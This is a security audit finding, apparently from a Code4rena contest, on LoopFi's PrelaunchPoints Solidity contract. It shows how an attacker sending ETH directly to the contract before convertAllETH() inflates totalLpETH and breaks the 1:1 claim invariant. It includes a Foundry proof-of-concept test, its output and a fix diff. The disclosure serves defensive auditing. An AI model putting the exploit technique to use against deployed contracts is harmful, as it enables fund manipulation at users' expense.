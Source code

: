 # Findings Summary

- High : 1

| ID            | Title                                                                     | Severity |
| ------------- | :------------------------------------------------------------------------ | :------: |
| [H-01](#H-01) | Direct ETH transfer to the protocol will break one of its main invariants |   High   |

# Detailed Findings

## <a id='H-01'></a>H-01 Direct ETH transfer to the protocol will break one of its main invariants

## Lines of code

https://github.com/code-423n4/2024-05-loop/blob/0dc8467ccff27230e7c0530b619524cc8401e22a/src/PrelaunchPoints.sol#L321-L322

## Vulnerability details

## Impact

One of the main invariants of the protocol states, "Users that deposit ETH/WETH get the correct amount of lpETH on claim (1 to 1 conversion)." However there is a critial vulnerability and if it is exploited, it would break this invariant, resulting in users not receiving lpETH at the 1:1 peg. Consequently, operations dependent on this invariant, such as determining the rewards from staking lpETH could be affected, calculating the lpETH price which in turn will affect integrating Loopfi with other protocols, because other protocols that accept lpETH as collateral might experience liquidation events and more. This will significantly impair the usability of the protocol.

## Proof of Concept

This vulnerability arises due to the susceptibility of the initial ETH amount that should be deposited to the lpETH contract to manipulation, primarily through the risk of direct ETH transfer by malicious actors to the protocol. Let's examine how this issue can be exploited:

In order to convert all the ETH initially locked by users to lpETH, the contract owner should invoke the `convertAllETH()` function. The balance that should be deposited to lpETH contract is calculated by retrieving the `PrelaunchPoints` contract's balance, which should represent the total ETH deposited by users:

```solidity
  function convertAllETH() external onlyAuthorized onlyBeforeDate(startClaimDate) {
      ...
      // deposits all the ETH to lpETH contract. Receives lpETH back
      uint256 totalBalance = address(this).balance;
      lpETH.deposit{value: totalBalance}(address(this));
      totalLpETH = lpETH.balanceOf(address(this));
      ...
  }

```

However, because this contract can accept direct ETH transfers through its `receive()` function, the calculation of the lpETH deposit amount can be disrupted. A malicious actor can front run the owner before he call `convertAllETH()` and send ETH to the contract, breaking this invariant.

This results in `totalLpETH` being higher than it should be, leading to incorrect calculations wherever it is used. For example, in the `_claim()` function, the amount a user is entitled to claim should be calculated by `(user ETH deposit amount * totalLpETH) / totalSupply`. However, due to this vulnerability, `totalLpETH` will be much higher than `totalSupply`, leading to incorrect calculations of the lpETH user's claim and consequently other issues such as incorrect staking reward amounts. For example in the following function `claimedAmount` will be much higher than it should be

```solidity
 function _claim(address _token, address _receiver, uint8 _percentage, Exchange _exchange, bytes calldata _data)
      internal
      returns (uint256 claimedAmount)
  {
      uint256 userStake = balances[msg.sender][_token];
      if (userStake == 0) {
          revert NothingToClaim();
      }
      if (_token == ETH) {
@>          claimedAmount = userStake.mulDiv(totalLpETH, totalSupply);
          balances[msg.sender][_token] = 0;
          lpETH.safeTransfer(_receiver, claimedAmount);
...
  }
}

```

I've created the following test to visualize the consequences of this bug. It can be simply copied and pasted into `PrelaunchPoints.t.sol`. Additionally, I've developed a helper function to visualize the amount of lpETH that a user is entitled to. This function should be included in `PrelaunchPoints.sol`, it calculates entitlements in the same manner as the `_claim()` function and it is used withing the PoC test:

helper function:

```solidity
  function entiteledTo() external view returns (uint256) {
      uint256 userStake = balances[msg.sender][ETH];
      return userStake.mulDiv(totalLpETH, totalSupply);
  }
```

PoC test:
Run command: `forge test --match-test testDirectETHTransferExploit -vv`

```solidity
  function testDirectETHTransferExploit() public {
      address ALICE = makeAddr("Alice");
      address BOB = makeAddr("Bob");
      address EVE = makeAddr("Eve");

      uint256 lockAmountAlice = 1 ether;
      uint256 lockAmountBob = 2 ether;
      uint256 lockAmountEve = 3 ether;
      vm.deal(ALICE, lockAmountAlice);
      vm.deal(BOB, lockAmountBob);
      vm.deal(EVE, lockAmountEve);

      vm.prank(ALICE);
      prelaunchPoints.lockETH{value: lockAmountAlice}(referral);

      vm.prank(BOB);
      prelaunchPoints.lockETH{value: lockAmountBob}(referral);

      vm.prank(EVE);
      prelaunchPoints.lockETH{value: lockAmountEve}(referral);

      address ATTACKER = makeAddr("Attacker");
      vm.deal(ATTACKER, 10 ether);

      // The attacker sends 10 eth directly to the protocol
      vm.prank(ATTACKER);
      address(prelaunchPoints).call{value: 10 ether}("");

      // Set Loop Contracts and Convert to lpETH
      prelaunchPoints.setLoopAddresses(address(lpETH), address(lpETHVault));
      vm.warp(prelaunchPoints.loopActivation() + prelaunchPoints.TIMELOCK() + 1);
      prelaunchPoints.convertAllETH();

      vm.warp(prelaunchPoints.startClaimDate() + 1);

      console.log("Totaly supply: ", prelaunchPoints.totalSupply());
      console.log("Totaly lpETH after exploit: ", prelaunchPoints.totalLpETH());

      // Although Eve deposited only 3 ETH now becuase of the exploit she can claim 8 lpETH
      vm.prank(EVE);
      console.log("Although Eve deposited 3 ETH, she can claim ", prelaunchPoints.entiteledTo(), "lpETH");
  }

```

Console output:

```
Ran 1 test for test/PrelaunchPoints.t.sol:PrelaunchPointsTest
[PASS] testDirectETHTransferExploit() (gas: 299726)
Logs:
Totaly supply:  6000000000000000000
Totaly lpETH after exploit:  16000000000000000000
Although Eve deposited 3 ETH, she can claim  8000000000000000000 lpETH
```

## Tools Used

VSCode, Foundry

## Recommended Mitigation Steps

Since a 1:1 peg with ETH is expected, the calculation of the amount to be deposited to lpETH can be directly retrieved from the `totalSupply` state variable. This variable accurately tracks the amount of ETH deposited by users.

```diff
@@ -318,7 +324,7 @@ contract PrelaunchPoints {
     }

     // deposits all the ETH to lpETH contract. Receives lpETH back
-        uint256 totalBalance = address(this).balance;
+        uint256 totalBalance = totalSupply;
     lpETH.deposit{value: totalBalance}(address(this));
```
